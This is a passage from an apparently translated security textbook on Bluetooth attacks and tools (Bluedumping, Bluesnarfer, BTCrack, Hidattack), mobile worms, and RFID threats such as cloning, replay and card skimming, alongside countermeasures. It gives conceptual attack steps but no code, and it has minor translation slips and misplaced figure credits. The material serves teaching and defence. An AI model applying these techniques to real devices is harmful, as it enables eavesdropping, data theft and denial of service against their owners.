蓝图探测是指攻击者远程访问目标设备详情的过程。所有启用蓝牙的设备都具有独特或特定于型号的特性。蓝图探测是利用这些信息来发现制造商和设备型号。基于这些不同的特性，可以确定设备运行的软件并发现设备安全性的弱点。

### 蓝震攻击

`Bluesmacking` 攻击是指攻击者向受害者设备发送超大 ping 数据包。这会导致受害者设备发生缓冲区溢出。这种类型的攻击类似于 ICMP 死亡之 ping。

#### 拒绝服务攻击

拒绝服务攻击限制了设备访问其他蓝牙资源或设备的能力。这种攻击消耗特定设备的所有带宽，使其无法与其他设备通信。攻击者与受害者设备配对并请求数据。然而，攻击者在接收到数据时不进行确认；这导致受害者设备重新传输信息。如果攻击者拥有足够的设备或请求足够多的数据，他或她就会耗尽受害者的带宽。受害者随后将无法与其他设备通信。

拒绝服务攻击的另一种形式是通过用数据传输淹没目标设备来耗尽目标设备的电池。该攻击也可用于耗尽电池电量低的设备的电力。攻击者必须处于无线电通信范围内才能实施攻击，并且在请求数据时，必须绕过目标设备上的任何安全障碍。

### Bluedumping 攻击

`Bluedumping` 是一种用于导致启用蓝牙的设备转储存储的链路密钥的攻击方法，这给了攻击者嗅探密钥交换过程的机会。嗅探密钥交换过程允许攻击者获取加密密钥。要执行 `Bluedumping` 攻击，攻击者必须知道一组已配对设备的 `BD_ADDR`。攻击者伪装其中一个设备的地址并连接到另一个设备。当受害者设备请求身份验证时，攻击者设备使用 `HCL_Link_Key_Request_Negative_Reply` 响应，而不是链路密钥。这会导致目标设备删除其自身的链路密钥并进入配对模式。

## 蓝牙黑客工具

### BTScanner

`BTScanner` 旨在不经过配对的情况下，尽可能多地从启用蓝牙的设备中提取信息。利用收集到的信息，可以有针对性地推测主机的设备类型。图 5-1 展示了来自 `BTScanner` 的截图。

### Bluesnarfer

`Bluesnarfer` 匿名连接到任何易受 Bluesnarfing 攻击影响的移动设备，并在所有者不知晓或未同意的情况下下载机密信息，包括设备电话簿。

### Bluediving

`Bluediving` 是一个蓝牙渗透测试套件。它实施了诸如 Bluebugging、Bluesnarfing 和 Bluesmacking 等攻击。

它还执行以下操作：

- 蓝牙地址伪装
- 实施诸如 carwhisperer、bss、L2CAP 数据包生成器、L2CAP 连接复位器和 RFCOMM 扫描器等工具
- Greeplaque 扫描模式

图 5-2 展示了来自 `Bluediving` 的截图。

## T-BEAR

`T-BEAR` 即瞬态蓝牙环境审计员，是一组旨在改进和管理蓝牙环境安全性的应用程序。该套件包括以下实用程序：

- `btsniff`：用于与 GNU radio 配合使用的蓝牙嗅探器


- `btkbsniff`：旨在监控来自启用蓝牙的键盘的数据


**图 5-1** BTScanner 从启用蓝牙的设备中提取信息。


来源：http://www.icewalkers.com/Linux/Software/529650/Bluediving.html。访问日期：2008年4月2日。

**图 5-2** Bluediving 实施了多种不同的蓝牙攻击。


来源：http://www.mruni.com/~en/security_tools_btc Rack.php。访问日期：2008年4月2日。

**图 5-3** BTCrack 是一种 PIN 码和链路密钥破解器。

- `btvsniff`：旨在监控来自蓝牙耳机语音数据
- `btcrackpin`：尝试破解与加密蓝牙数据相关联的 PIN 码的程序
- `thsearch`：用于定位隐藏蓝牙设备

### BTCrack

BTCrack 从配对会话期间嗅探的数据中重建设备的蓝牙 PIN 码和链路密钥。重建的 PIN 码可以对处于配对模式的设备进行身份验证，而链路密钥用于在不经过用户交互的情况下获取主机和从机的完全访问权限。攻击者可以使用生成的链路密钥解密两个设备之间的数据流。图 5-3 展示了来自 BTCrack 的截图。

### Blueover

Blueover 是一个运行在支持 J2ME 的蜂窝电话上的工具。它审计特定的蓝牙设备是否易受 Bluesnarfing 攻击。

### Hidattack

Hidattack 攻击蓝牙人机接口设备（HID）协议。`HID 协议`处理两个单元：设备，即直接与用户交互的实体；以及主机，即与设备通信并接收来自设备的用户操作输入数据的主机。Hidattack 使获取目标设备 PIN 码的攻击者能够解密其流量，并获得对每个连接的蓝牙设备的完全访问权限。

攻击者的蓝牙设备扫描正在运行活动蓝牙 HID 驱动程序的 PC。一旦发现受害者的 PC，攻击者就可以使用他或她自己的键盘在受害者的 PC 上输入信息和执行命令。攻击者随后完全控制该设备。

在 HID 中，有两个实例：主机（例如 PC、笔记本电脑、PDA 或蜂窝电话）和用于向主机输入信息的设备（例如键盘或鼠标）。这些实例通过两个通道连接：控制通道和中断通道。控制通道用于信号传输，中断通道用于数据传输。

## 病毒和蠕虫

### Cabir 和 Mabin

Cabir 蠕虫感染支持 S60 平台的 Symbian 移动电话。一个名为 `caribe.sis` 的文件被发送到电话的信息收件箱。当用户安装 `caribe.sis` 时，蠕虫被激活。应用程序 `caribe.app` 在 `caribe.sis` 文件安装后自动执行。该蠕虫使用受感染的电话寻找其他设备，并以相同的方式感染它们。该蠕虫只会向它找到的第一个设备发送新的 `caribe.sis` 文件，然后锁定电话以防止其搜索更多受害者。一旦设备被感染，该蠕虫将持续尝试通过系统传播。禁用蓝牙没有影响。

Mabin 蠕虫与 Cabir 相同，感染 Symbian S60 设备并使用名为 `caribe.sis` 的文件。但是，它可以使用蓝牙或 MMS 消息感染目标设备。

### Worm.SymbOS.Lasco.a

`Worm.SymbOS.Lasco.a` 是一种可以感染运行 Symbian 操作系统的 PDA 和移动电话的蠕虫。与 Cabir 类似，Lasco.a 使用蓝牙连接进行自我复制。当执行时，它扫描磁盘上的 SIS 存档，并试图通过插入其代码来感染这些文件。

## 蓝牙安全工具

### BlueWatch

BlueWatch 是一个应用程序，可识别给定区域内所有启用蓝牙的设备、它们的通信及其连接性。它提供关于每个设备的重要信息，例如设备类、制造商和信号强度。BlueWatch 还识别每个设备上可用的服务，包括网络访问、传真和音频。它可以检测到配置错误、未身份验证或未加密的设备。它监控蓝牙流量和安全威胁。该工具可以在任何运行 Windows 2000、XP 或 CE 的启用蓝牙的计算机或 PDA 上运行。

### BlueSweep

BlueSweep 是一个蓝牙查找器和免费工具，可识别附近任何蓝牙设备，检测其运行的服务以及如何与其他设备连接。它提供了一种进入蓝牙设备并识别可能未被注意到的安全问题的简单方法。图 5-4 展示了来自 BlueSweep 的截图。

### Bluekey

Bluekey 是一个使用蓝牙保护 PDA 的安全程序。它使用蓝牙设备解锁 PDA。Bluekey 在开启时自动尝试身份验证用户；用户无需记住任何密码或按键组合。Bluekey 具有多个配置文件和模式以实现完全灵活性。


图 5-4 BlueSweep 识别附近的蓝牙设备。

## BlueFire 移动安全企业版

BlueFire 移动安全企业版通过集成的 LAN/WAN 防火墙提供网络安全。它还根据管理员控制的端口和协议策略过滤到移动设备的流量。

其部分功能如下：

- **入侵防范：** 扫描传入网络数据包，以识别并阻止传统攻击，例如 LAND 攻击。
- **认证：** 强制要求开机 PIN 码或密码；向用户提供自助服务密码重置功能。设备清除功能允许在登录尝试失败达到设定次数后擦除设备上的数据。
- **加密：** 使用 AES 256 位加密保护存储在设备或可移动存储卡的安全文件夹中的数据，并符合联邦信息处理标准（FIPS）140-2 政策。
- 允许管理员阻止蓝牙、扬声器/麦克风、USB、红外、存储卡、摄像头和 ActiveSync 等功能。
- 支持 Microsoft SQL Server 的远程实例。
- 监控核心系统资产，并在设备上出现完整性违规时自动向用户发出警报。
- 捕获并保留安全事件的详细日志，例如成功和无效的登录尝试、密码重置、隔离覆盖、端口扫描、防火墙活动和完整性违规。

## BlueAuditor

BlueAuditor 检测并监控无线网络中的蓝牙设备。它提供关于每个设备的功能及其所提供的服务的信息。此外，BlueAuditor 可以将设备信息保存为 XML 文件。图 5-5 显示了 BlueAuditor 的截图。

## 蓝牙网络扫描器

蓝牙网络扫描器如图 5-6 所示，可以分析和扫描蓝牙网络，提供关于发现的本地和远程设备的详细信息。用户可以通过清晰直观的用户界面浏览每个设备支持的服务。


*来源：http://www.wirelessnetworktools.com/。访问时间：2008 年 4 月 2 日。*

图 5-5 **BlueAuditor** 提供关于其发现的具有蓝牙功能的设备的信息。


*来源：http://www.sharewareconnection.com/medieval-bluetooth-network-scanner.htm。访问时间：2008 年 4 月 2 日。*

图 5-6 **蓝牙网络扫描器** 发现具有蓝牙功能的设备。

其部分功能如下：

- 扫描远程和本地设备
- 探索设备的完整详细信息
- 检测设备能力、设备信息和设备地址
- 深入扫描发现的每个蓝牙设备的所有服务

## 对策

除了使用监控蓝牙网络安全的工具外，用户还可以采取一些简单的预防措施来保护其设备，例如：

- 加密敏感数据
- 在不使用蓝牙时将其关闭
- 购买使用长 PIN 码的设备。数字越长，破解越难。
- 最小化设备的发射功率
- 通过在软件层面使用额外安全措施以及在对物理保护上的蓝牙设备使用密码保护来防止数据窃取
- 在访问敏感信息或敏感服务时，以及在每次 L2CAP 请求时请求重新认证
- 安全存储蓝牙设备
- 使用射频（RF）签名
- 防止其他设备在配对过程中获取用户的 PIN 码
- 最小化网络范围以限制消耗的电力
- 关闭不必要的 SCO/eSCO 链接
- 仔细选择蓝牙设备首次相遇时生成初始化密钥的位置
- 对资源受限的设备使用单元密钥
- 使用最新软件更新用户的设备以避免安全漏洞

## 本章小结

- 蓝牙是一种短距离无线通信协议，用于替代连接设备的电缆。它在移动电话、计算机、MP3 播放器等之间建立无线连接。
- 蓝牙的常见用途包括与无线电话通信、在 PDA 和 PC 之间传输数据、无缆连接打印机、键盘或鼠标到 PC，以及从一个设备向另一个设备发送照片和铃声。
- Bluejacking 是通过蓝牙向其他设备发送未经请求或不想要的消息。
- Bluesnarfing 是通过具有蓝牙功能的设备访问敏感数据。
- Bluebugging 是具有蓝牙功能的设备中的蓝牙安全漏洞。


- Bluedumping 是一种导致具有蓝牙功能的设备转储存储的链路密钥的技术，这使得攻击者可以嗅探密钥交换过程。

- Bluesnarfer 下载易受攻击设备的电话簿。

- Blueprinting 用于远程查找具有蓝牙功能的设备的详细信息。

- Hidattack 攻击蓝牙人机接口设备（HID）协议。

- 有许多工具可用于检测、监控和审计无线网络中的蓝牙设备。这些工具的示例包括 BlueAuditor 和 Bluekey。

## 复习题

1. 设备如何使用蓝牙进行通信？

2. 哪种蓝牙攻击通过蓝牙向 PDA 和移动电话等设备发送未经请求的消息？

3. 如何执行 Bluesnarfing 攻击？

4. 解释涉及蓝牙的中间人攻击的两个阶段。

5. 描述在线 PIN 码破解攻击。

6. 描述攻击者使具有蓝牙功能的设备拒绝服务的两种方法。

7. 描述 Cabir 蠕虫。

8. 什么是配对？


## 实战项目

1. 执行以下步骤：

    - 导航至学生资源中心的 `第 5 章`。

    - 打开 Security Overview of Bluetooth.pdf 并阅读内容。

2. 执行以下步骤：

    - 导航至学生资源中心的 `第 5 章`。

    - 打开 BTKeylogging attack and countermeasures.pdf 并阅读内容。

3. 执行以下步骤：

    - 导航至学生资源中心的 `第 5 章`。

    - 打开 BTVoiceBugging attack.pdf 并阅读内容。

4. 执行以下步骤：

    - 导航至学生资源中心的 `第 5 章`。

    - 打开 kaa rle.pdf 并阅读内容。

## 6 RFID 黑客攻击

### 目标

完成本章后，你应该能够：

- 了解 RFID

- 了解 RFID 系统的组件

- 了解 RFID 冲突

- 了解 RFID 风险

- 了解 RFID 安全和隐私威胁

- 了解具有 RFID 功能的信用卡的漏洞

- 实施针对 RFID 攻击的对策

- 了解 RFID 黑客工具 RFDump

- 了解 RFID 安全控制措施

### 关键术语

**LEO（低地球轨道）星座**：一组能够监控和跟踪 RFID 信号的 LEO 卫星

**RFID（射频识别）**：一种使用无线电波来识别物体的自动识别方法

**RFID 读取器冲突**：当一个 RFID 读取器的覆盖区域与另一个 RFID 读取器的覆盖区域重叠时发生的情况

**RFID 系统**：由 RFID 标签、标签读取器、RFID 标签天线、RFID 控制器、RFID 场所服务器和 RFID 集成服务器组成的自动识别系统

**RFID 标签**：由微芯片和天线制成的电子识别设备；该设备以唯一序列号的形式存储物体的身份，并向读取器传输识别信息

**RFID 标签天线**：一种调谐为接收 RFID 标签波的天线，配备用于向 RFID 标签发射无线电信号、读取标签数据以及向标签写入数据的功能

**RFID 标签碰撞**

当 RFID 阅读器同时激活众多标签，且各标签的信号同时反射回阅读器时，会发生这种情况。

**标签阅读器**

一种电子设备，它将 RFID 标签反射回来的无线电波转换为数字信息，并将该信息传递给计算机系统。

### 案例示例

哈利法克斯（Halifax），英国的一家银行，开始向客户发行使用 Pay Wave 技术的启用 RFID 的银行卡。Pay Wave 技术允许客户在没有输入 PIN 码或签名的情况下进行最高 10 欧元的交易。一位名叫 Pete 的客户获得了一张 Pay Wave 卡，但他对使用该卡不感兴趣，并将其碎掉了。他计划继续之前使用的、不采用 Pay Wave 技术的借记卡。然而，他使用旧借记卡交易时受阻。当他联系银行帮助中心时，他发现在发行新银行卡时，他之前的银行卡被自动注销了。哈利法克斯强制要求客户使用新发行的卡片。Pete 不想使用启用 RFID 的卡片，因为它在进行交易时不需要任何授权，使其安全性极低。最终，哈利法克斯为 Pete 发行了一张新的、非 Pay Wave 的银行卡。

### RFID 黑客攻击简介

本章专注于 RFID 黑客攻击。它首先概述了 RFID 技术及构成 RFID 系统的组件。然后讨论了 RFID 碰撞以及实施 RFID 系统相关的风险。本章涵盖了 RFID 安全和隐私威胁、启用 RFID 的信用卡的具体漏洞、用于避免 RFID 攻击的反制措施、RFID 恶意软件、RFID 漏洞利用以及 RFDump 黑客工具。最后，列举了 RFID 安全控制措施。

### RFID（射频识别）

**RFID**（*射频识别*）是一种使用无线电波识别物体的自动识别方法。物体的身份以唯一序列号的形式存储在 RFID 标签（也称为应答器）上，并使用阅读器进行读取。RFID 标签将识别信息传输给*标签阅读器*，阅读器将 RFID 标签反射回来的无线电波转换为数字信息，并将信息传递给计算机系统。这项技术不需要数据载体设备（RFID 标签）及其阅读器之间接触即可传输数据。

### RFID 系统的组件

*RFID 系统*由以下基本组件组成。

#### 标签

RFID 标签可以附着在产品、动物或人身上，并电子编程有用于识别目的的唯一序列号。每个 **RFID 标签** 都有一个硅微芯片（用于存储序列号和任何附加信息），该芯片连接到一个天线，该天线检测阅读器的激活信号并将信号传输给阅读器。

可用的 RFID 标签类型如下：

-   `无源标签`：这些标签使用阅读器的电源运行，阅读器发出的无线电波会在标签天线中感应电流；因此，不需要内部电源。无源标签体积小且成本低，但其识别范围有限。这些标签包含只读芯片。

-   `有源标签`：这些标签具有发射器和自己的电源（电池），用于运行微芯片电路并向阅读器发送信号。与无源标签相比，有源标签体积更大且成本更高，但识别范围更大。这些标签通常包含读写芯片。

-   `半有源标签`：这些标签需要内部电源（电池）来运行芯片电路，但通过阅读器的电源进行通信。

#### 标签阅读器

标签阅读器可以安装在固定位置或手持。根据所使用的射频和功率输出，它们发射宽范围的无线电波。*RFID 标签天线*被调谐以接收这些波。因此，当 RFID 标签穿过电磁区域时，它会检测标签阅读器的激活信号。标签将波反射回阅读器。阅读器解密标签集成电路中的加密数据，并将提取的数据发送到主机计算机进行处理。

#### RFID 标签天线

RFID 标签天线与收发器和解码器捆绑在一起。天线发射无线电信号以激活标签。然后标签将其微芯片上的信息传输给天线。天线从标签读取数据，如果标签包含读写芯片，天线也可以向标签写入数据。

#### RFID 控制器

RFID 控制器用于商店或分发中心环境。它支持以下功能：

-   提供同步或异步连接

-   提供软件部署，包括设备驱动程序、过滤器、聚合器以及动态加载的软件模块

-   确保安全，对边缘处的阅读器进行身份验证

#### RFID 场所服务器

RFID 场所服务器用于商店或分发中心。它支持以下功能：

-   增加持久性以存储来自控制器的所有传入 RFID 事件

-   确保命令和数据通过同步或异步通信传递给网络

-   提供有限的流程管理支持

-   通过同步或异步方法从服务器发送和接收命令和数据，表现得像 RFID 集成服务器的网关

#### RFID 集成服务器

它支持以下功能：

-   提供具有复杂管理的流程集成

-   改善来自现有源的 RFID 数据，提供清理和验证数据的能力

-   集成业务间流程和各种图形用户界面

-   允许客户选择各种软件产品来替换服务器，或实施其自有的替换解决方案

### RFID 碰撞

#### RFID 标签碰撞

*RFID 标签碰撞* 发生在 RFID 阅读器同时激活众多标签，且各标签的信号同时反射回阅读器时。这种标签碰撞会让阅读器困惑，无法区分信号。这通常发生在大量标签在同一射频场中同时被读取时。

已开发出各种系统来隔离单个标签并防止标签碰撞。虽然这些系统因供应商而异，但其中一种系统会在发生标签碰撞时，让阅读器向标签发送“间隙脉冲”。当每个标签接收到此信号时，它会请求一个随机数计数器来确定发送数据前需要等待的时间。标签等待一段时间过去后再发送数据，从而允许数据单独发送。

#### RFID 阅读器碰撞

**RFID 阅读器碰撞** 发生在一个 RFID 阅读器的覆盖区域与另一个阅读器的覆盖区域重叠时。这种碰撞会导致两个问题：

1.  **信号干扰：** 当两个或多个阅读器的射频场重叠并相互干扰时，会出现此问题。将阅读器编程为在略有不同的时间读取可以帮助解决此问题。然而，即使使用这种技术，有些标签仍可能被读取两次。

2.  **同一标签的多次读取：** 当同一标签被每个重叠的阅读器各读取一次时，会出现此问题。为了解决此问题，必须对 RFID 系统进行编程，使其在一次会话中仅读取每个标签一次。

### RFID 风险


虽然 RFID 技术可能使组织提高其效率和效能，并支持使用 RFID 技术的供应链及其他应用，但也存在某些风险。RFID 技术结合了多种不同的计算和通信技术，使其变得复杂，而这种复杂性涉及风险。如果组织想要成功实施 RFID 技术，它们必须了解所涉及的风险以及如何管理它们。这些风险如下：

- **业务流程风险：** 对 RFID 系统组件的直接攻击可能会破坏 RFID 系统旨在支持的流程。
- **商业智能风险：** 对手或竞争对手可能会未经授权访问 RFID 生成的信息，并以此损害实施 RFID 系统的组织的利益。
- **隐私风险：** 如果 RFID 系统将视为个人可识别信息的数据用于除最初意图或理解之外的目的，个人隐私权利或预期可能会受损。持有功能正常标签的物品也构成隐私风险，因为它可能会使持有带有标签物品的人受到追踪。
- **外部性风险：** RFID 技术可能对非 RFID 网络或同地部署的系统、资产和人员构成威胁。

射频通信对操作者和用户不可见的事实增加了所有这些风险，因为这使得识别未经授权的行为变得更加困难。

## 业务流程风险

组织通常实施 RFID 系统来替代或增强基于纸质或部分自动化的流程。如果 RFID 系统没有正确结合业务连续性计划进行实施，它可能比它所替代的原始系统更缺乏对中断的韧性。例如，仓库将其基于纸质的库存管理系统替换为启用 RFID 的系统。纸质系统涉及在仓库存储已完成的表格，并将表格副本发送到中央办公室，而新的 RFID 系统将其后端数据库服务器放置在单一计算中心。在这种环境中，尽管启用 RFID 的业务流程效率、准确性或效能提高，纸质系统可能比 RFID 系统对局部灾难更具韧性。

如果 RFID 系统的任何组件或子系统失败，可能会导致整个系统失败。在仓库示例中，整个系统失败可能由于仓库与计算设施之间的网络连接丢失、使关键中间件功能失效的软件病毒，或阻止阅读器准确读取标签的新无线电干扰源而发生。如果 RFID 系统不可用，业务流程可能会变慢，或关键的业务或运营记录可能会丢失。如果系统是关键任务系统，其对组织绩效的影响可能是毁灭性的。

人为原因（可能是故意或非故意的）和自然原因都存在业务流程风险。克隆是对 RFID 业务流程的故意攻击。在这类攻击中，对手从合法的 RFID 标签读取信息，然后对另一个标签或设备进行编程以模拟合法标签的行为。另一个对 RFID 业务流程的故意攻击示例发生在，为了在商店中获得昂贵商品的更好价格，一个人移除他打算识别的物品上的标签，并将其附加到另一个物品上时。

业务流程风险还涉及可能在射频子系统之外发生的问题。如果支持 RFID 的网络出现问题，这很可能也会导致 RFID 系统出现问题。如果供应商

如果无法将清单数据写入标签，即使其 RFID 读取器和网络基础设施完全正常，接收方也无法在运营中使用这些数据。托管 RFID 中间件、数据库、分析系统和身份验证服务的服务器都是潜在的故障点。鉴于潜在威胁种类繁多，必须对业务流程风险进行全面评估，以避免这些风险。

## 商业智能风险

RFID 技术支持对资产和人员信息的无线远程访问，这些信息要么此前不存在，要么难以创建或难以动态维护。无线远程访问是一项重大优势。然而，如果没有适当的控制措施，就会存在商业智能风险，因为未经授权的方可以访问这些信息。

竞争对手或敌对势力可以通过多种方式从 RFID 系统中获取信息，包括窃听读取器与标签之间的射频链路、对标签进行独立查询以获取相关数据，或未经授权使用存储被标记物品信息的后端数据库。供应链应用可能特别容易受到此风险的影响，因为多种外部实体可能对标签或相关数据库具有读取访问权限。只有当未授权方利用该信息做出有害行为时，未经授权的访问风险才真正实现。

有时，获取这些信息会立即引发反应。例如，某人可能使用读取器确定运输集装箱中是否装有昂贵的电子设备，并在获得肯定读取结果时闯入集装箱。这是定点打击的一个例子。

在其他情况下，数据会随时间聚合，以提供有关组织运营、商业战略或专有方法的智能信息。例如，一个组织可以监控进入设施的标签数量，以确定企业的增长或运营实践。如果仓库最近收到了一些非常大型的订单，该信息可能引发金融市场的行动，或促使竞争对手改变其价格或生产计划。

## 隐私风险

RFID 技术带来多种隐私风险。隐私风险影响个人以及实施 RFID 技术的组织。个人的隐私风险涉及个人信息的未经授权披露以及该违规行为带来的个人后果。例如，组织可能为特定目的（如完成金融交易或授予个人进入设施的权限）收集个人信息。然而，他们可能稍后将该信息用于个人认为不希望的另一种目的，例如开展直接营销活动。同样，实施 RFID 系统以服务特定业务流程的组织可能并未意识到 RFID 信息可能被用于未预期的目的，包括定位或跟踪个人，或向未授权的第三方披露个人习惯或偏好。

实施组织的隐私风险可能包括以下内容：

- 如果组织不遵守隐私法律和法规所受的处罚
- 客户因对 RFID 技术的真实或 perceived 隐私担忧而回避或抵制该组织
- 因隐私保护薄弱所导致的任何后果的法律连带责任
- 员工、股东和其他利益相关者因对社会责任问题产生担忧而与组织解绑

商业目标通常与隐私目标相冲突。组织受益于分析和共享从 RFID 技术获得的个人信息，但这些活动可能会侵犯公民和消费者的隐私权或预期。同样，保护个人隐私的方法可能会带来业务流程风险。例如，消费者可能希望在销售点禁用标签，以便之后不能将其用于跟踪目的。然而，如果标签很容易在销售点被禁用，那么敌对势力也可能在销售点之前轻松禁用标签，从而破坏业务流程。此外，组织可能希望在售出后使用标签，用于售后支持、召回及其他目的。

如果个人拥有来自多个组织的标签，隐私风险可能会增加。这是因为读取标签的人可以将信息合并和关联，以单独的组织可能未曾预料到的方式为个人建立画像。例如，如果消费者购买了带标签的商品且未禁用或移除标签，卖方（或他人）随后可以利用该标签揭示该人在其他时间和地点的存在。消费者可能使用现金购买商品，以为在交易中保持了匿名。然而，如果消费者还携带了另一个能揭示其身份的标签（例如启用 RFID 的身份卡），某人可能能够悄悄读取两个标签，从而建立之前不存在的购买物品与消费者身份之间的关联。随着人们拥有更多带标签的物品且读取器在日常生活中越来越普及，形成复杂关联和推断的潜力也随之增加。

影响隐私风险程度的其他因素包括：

- 标签上是否存储个人信息
- 被标记的物品是否被视为个人物品（例如，药品、会揭示医疗状况的设备，或可能揭示政治或宗教倾向的书籍）
- 标签处于兼容读取器附近的几率
- 记录在分析或归档系统中保留的时间长度
- RFID 安全控制措施的有效性，特别是：
    - 标签内存访问控制和身份验证机制的效率
    - 在业务流程完成后禁用标签的能力
- 用户有效屏蔽标签以防止未授权读取交易的能力

## 外部性风险

RFID 系统通常与企业和资产中的其他系统不隔离。RFID 系统与 RFID 系统外部事物之间的每个连接点都代表连接另一端实体的潜在漏洞，无论那是应用程序过程、有价值的资产还是人。RFID 系统的射频子元素和企业子元素均存在外部性风险。射频子系统的主要外部性风险是电磁辐射的危害，其影响范围可能从对人体健康的负面影响到引燃易燃材料（如燃料或弹药）不等。企业子系统的主要外部性风险是对联网设备和应用程序的成功计算机网络攻击。计算机网络攻击可能涉及恶意软件（例如蠕虫和病毒），或利用软件漏洞和配置弱点来访问系统、执行拒绝服务攻击或造成其他损害的入侵工具。计算机网络攻击的影响范围可能从性能降级到关键任务应用的完全失守。

### 电磁辐射的危害

与其他无线电技术一样，RFID 技术依靠使用电磁辐射来传输信息。电磁辐射的潜在风险包括：

- 电磁辐射对人的危害（HERP）
- 电磁辐射对弹药的危害（HERO）
- 电磁辐射对燃料的危害（HERF）
- 电磁辐射对其他材料的危害，包括血液制品、疫苗和药品等医疗用品

### 计算机网络攻击

RFID 技术代表了企业网络的一种新的攻击向量。一旦实施 RFID 系统，攻击者可能通过读取器访问非 RFID 和企业子系统计算机。然而，据知此类攻击尚未成功发生。如果系统涉及无线手持读取器，则读取器与网络中间件服务器之间的无线链路是另一个可能被攻击者利用的入口点。一旦 RFID 服务器被入侵，它们可被用于对其它联网系统发起攻击。攻击可能性包括引入恶意软件（例如蠕虫或病毒），或利用单个敌对方每次入侵一台计算机的漏洞。一旦更多系统被入侵，IT 基础设施可能面临各种不良后果，包括机密性、完整性和可用性的丧失。

虽然通过 RFID 接口进行网络入侵的风险被认为较低，但这是可能的，特别是随着 RFID 读取器、中间件和企业应用数量的增加。RFID 空中接口协议不支持在 RFID 接口上执行远程命令。然而，如果读取器接受协议预期之外的数据格式，那么对手方理论上可以通过发送不符合规范的数据来利用读取器上的缓冲区溢出漏洞。如果系统设计不佳，对手方可能会

攻击者能够向内存缓冲区插入代码或命令，而读取这些缓冲区的进程可以执行管理功能（例如禁用安全控制）。在这种情况下，攻击者可能完全控制该设备，并利用这种控制权去攻击其他系统。

## RFID 安全与隐私威胁


RFID 利用强大的无线识别能力来揭示物理对象的性质和位置。因此，RFID 成为攻击者青睐的目标，攻击者可能会使用以下方法发起攻击：

- 嗅探
- 跟踪
- 欺骗
- 重放攻击
- 拒绝服务攻击

## 嗅探

RFID 标签设计为可被任何合规的读取器读取；因此，它们不具备区分能力。但这会导致未经授权的读取器从远处读取标签，从而影响隐私。攻击者可能会通过窃听无线 RFID 通道上的通信或监听无线网络来收集 RFID 数据。未经授权访问标签数据会带来严重的隐私影响。使用标签收集到的数据可能会泄露医疗和个人详细信息，这可能导致个人的保险覆盖被拒绝或就业机会丧失。如果收集到的数据泄露了产品信息，则可能造成本企业的业务损失。

## 跟踪

通过跟踪技术，RFID 技术可以监控整个群体以及个人。RFID 促进了个人位置和行为的秘密监控。RFID 读取器可以战略性地放置，以捕获个人 RFID 标签的独特响应，并有助于识别与标签相关的人员。然而，如果存在一组没有关联唯一标识符的重复标签，个人仍然可以通过 `LEO`（低地球轨道）星座进行监控。`LEO` 星座是一组具备监控和跟踪 RFID 信号能力的 `LEO` 卫星。

## 欺骗

当攻击者在空白 RFID 标签上写入格式适当的数据以模仿真正的 RFID 标签时，就会发生欺骗攻击。标签克隆是另一种类型的欺骗攻击，它会产生合法 RFID 标签的非法副本。例如，在超市中，商品标签可以被替换为相似的标签，从而让窃贼能够以更低的价格购买商品。类似地，数字签名应答器可以被克隆，允许攻击者解锁基于 `DST` 的车辆防盗系统并购买汽油。

## 重放攻击

中继设备中断并重传 RFID 查询，攻击者利用这一点攻击各种 RFID 应用。启用 RFID 的车牌和电子车牌（`e-Plates`）是易受中继设备攻击的当前 RFID 系统的例子。这些主动式电子车牌的加密代码存储在政府的车辆数据库中。当攻击者扫描其他车辆的车牌时，他或她会记录加密标识符，然后在稍后进行重放。

## 拒绝服务攻击

为了正常工作，RFID 系统必须具备管理良好的 RFID 标签和后端数据库；否则，攻击者可以利用它们发起拒绝服务攻击。窃贼可以通过移除标签或将商品放入衬有锡箔的增强袋中来窃取贴有 RFID 标签的物品，这种袋子会阻断 RFID 查询信号并暂时使物品失效。如果标签从贴有 RFID 标签的物品上移除并包裹在衬有锡箔的增强袋中，读取器将无法检测到标签。如果攻击者移除 RFID 标签并将其贴在其他物品上，RFID 系统会记录无用的数据。另一种拒绝服务攻击可能会发生，如果攻击者通过提供超过系统正常处理能力的数据来淹没 RFID 系统。

## RFID 启用信用卡中的漏洞

特别是启用 RFID 的信用卡易受以下类型的攻击：

- **跟踪攻击：** 在跟踪攻击中，商家违反了 RFID 信用卡读取器的预期使用规范。商家可能会使用信用卡读取器利用信用卡，以确定其使用时机以及是否与其他信用卡一起使用。
- **窃听攻击：** 在窃听攻击中，攻击者使用天线读取或记录标签和读取器之间的通信；这只发生在实时通信过程中（即在商店直接购买时）。
- **盗刷攻击：** 在盗刷攻击中，攻击者可能是不良商家或员工。攻击者使用小型盗刷设备，例如磁条读取器。盗刷设备安装在信用卡读取器的面板后方，因此当客户使用信用卡或借记卡支付时，攻击者在该机器上刷卡，并从卡片中获取详细信息。
- **重放和中继攻击：** 在重放和中继攻击中，攻击者发送来自应答器端的无线电波的确切重放，该重放记录了 RFID 读取器和标签之间的过去交易。网络中间的攻击者使用授权的读取器访问授权的标签。
- **交叉污染攻击：** 当攻击者获取持卡人的私密信息（如持卡人姓名、号码和有效期）时，就会发生交叉污染攻击。然后，攻击者可以使用这些数据来创建杂志卡（magazine card），重新读取现有卡片的磁条，或执行不需要实体卡的交易，例如在线购买。

## 用于避免 RFID 攻击的对策

如果组织实施 RFID 技术，可以采取多种对策来保护 RFID 设备。个人也可以使用某些对策来保护自身。

### RSA 阻断标签

RSA 阻断标签看起来像 RFID 标签，大小相同。当攻击者试图未经适当授权扫描标签时，RSA 阻断标签会发射射频，导致 RFID 读取器拒绝来自该源的数据，因为它们认为接收到的数据是不需要的或垃圾数据。这维持了消费者的隐私。

### 关闭开关

关闭开关可以集成到 RFID 标签内的芯片中。如果使用这些开关，可以发送命令以禁用标签，并且该标签永远无法重新激活。消费者通常会在离开商店之前被给予禁用 RFID 标签的选择；这有助于避免画像分析和秘密跟踪。

### 密码学

开发人员已建立轻量级的对称密钥和公钥密码学版本，以保护 RFID 标签免受攻击。

### 检测与规避

消费者可以使用诸如 `RFID Guardian` 等设备来检测未经授权的 RFID 活动，然后采取自己的规避措施以避免攻击。

### RFID Guardian

`RFID Guardian` 是一种便携式、电池供电设备，用于中介 RFID 读取器和 RFID 标签之间的交互。其功能包括审计、密钥管理、访问控制和身份验证。

`RFID Guardian` 包含 RFID 读取器和标签模拟功能，使其能够审计和控制 RFID 活动。它通过监控其附近的 RFID 扫描和标签来审计活动，这可以指示是否存在未经授权的 RFID 活动。

现代 RFID 标签中的安全功能可能需要使用相关的密钥值。这带来了后勤问题，因为密钥必须被获取、存储，并在适当的时间可用。

